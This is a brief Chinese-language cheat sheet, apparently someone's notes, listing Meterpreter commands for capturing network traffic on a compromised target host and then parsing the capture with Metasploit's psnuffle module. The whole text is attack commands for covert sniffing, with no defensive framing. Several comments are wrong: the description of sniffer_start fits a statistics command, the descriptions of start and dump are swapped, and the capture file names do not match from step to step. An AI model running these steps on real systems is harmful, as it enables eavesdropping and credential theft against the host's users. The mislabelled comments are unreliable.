

# 抓包嗅探
use sniffer # 加载嗅探模块
sniffer_interfaces #列出目标主机所有开放的网络接口
sniffer_start 2 #获取正在实施嗅探网络接口的统计数据
sniffer_dump 2 /tmp/test2.cap #在目标主机上针对特定范围的数据包缓冲区启动嗅探
sniffer_stop  2   #停止嗅探

对抓取的包进行解包：
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
wireshark，加载这个/tmp/xpsp1.cap 也可